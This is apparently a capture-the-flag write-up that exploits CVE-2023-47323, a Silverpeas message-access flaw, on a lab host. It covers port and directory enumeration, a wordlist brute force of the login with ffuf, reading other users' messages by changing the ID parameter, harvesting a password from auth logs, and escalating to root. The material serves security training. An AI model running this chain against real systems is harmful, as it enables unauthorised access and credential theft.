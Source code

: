 # Silverpeas Broken Access Control to Allows Attacker to Read All Messages
## Risk Rating

**NIST**: NVD  
Base Score: $${\color{red}8.1 HIGH}$$
**ADP**: CISA-ADP
Base Score: $${\color{red}8.1 HIGH}$$

## Summary
The notification/messaging feature does not enforce access control on the ID parameter, allowing any user to read all messages.
## Technical Details & Evidence
Enumerating information from the target by using `nmap`
```
nmap -T4 -sV -O -A -v 10.10.... -oN nmap.txt
```
It is noticable that open ports are `22`, `80` ,`8080`.
Accessing the target website via port `80`, it is obvious to gather the `username : scr1ptkiddy` and some information aobut a page call `silverpeas` in the contact section
The process of enumerating paths of the target with to ports `80` and `8080` was executed by `gobuster`
```
gobuster dir -u "http://10.10...." -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.js,.txt -t 100
```
- With port `80`:
`/assets`
`/images`
`/README.txt`
`/LICENSE.txt`
```
gobuster dir -u "http://10.10....:8080" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.js,.txt -t 100
```
- With port `8080` (cannot access normally to this port):
`/console`
`/website`
Manually brute-forcing path `silverpeas` to 2 ports and port `8080` did respond and redirect to a login page.
Using `ffuf` to brute-force the password, but it was mentioned that `rockyou.txt` would not work. Therefore, it is possible to try every single character of page port `80`.
First, creating a list containing every single character of the website port `80` by using `cewl`
```
cewl http://10.10.... / > passwords.txt
```
Then, start the brute-force attack
```
ffuf -u 'http://10.10....:8080/silverpeas/AuthenticationServlet' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'Login=scr1ptkiddy&Password=FUZZ&DomainId=0' -w passwords.txt -r -mc all -t 100 -fs 8282
```
Searching for vulnerabilities in Silverpeas, we find [CVE-2023-47323](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323), which allows reading all messages via the `http://localhost:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=[messageID]` endpoint.

Exploiting this vulnerability to read the messages, when we read the message with ID `6` (`http://10.10.191.243:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=6`), we find the SSH credentials for the `tim` user.
```
ssh tim@10.10....
```
## Shell as root

```
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```
tim is in adm group which means that checking /var/log/ may helps to find the password to escalate.
```
grep -Ei 'password' cat /var/log/auth*
```
- `E` for extended grexp
- `i`  for ignoring the case
Found
```
/var/log/auth.log.2:Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=******** -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```
Note: because tyler has user as  `root`, looking for tyler is the best way.
Then using `ssh` connect under tyler
```
ssh tyler@10.10....
```
```
tyler@silver-platter:~$ sudo su
```
Gaining access as root successfully
# Reference
- [rihno security lab](https://rhinosecuritylabs.com/research/silverpeas-file-read-cves/)
- [CVE-2023-47323](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323)
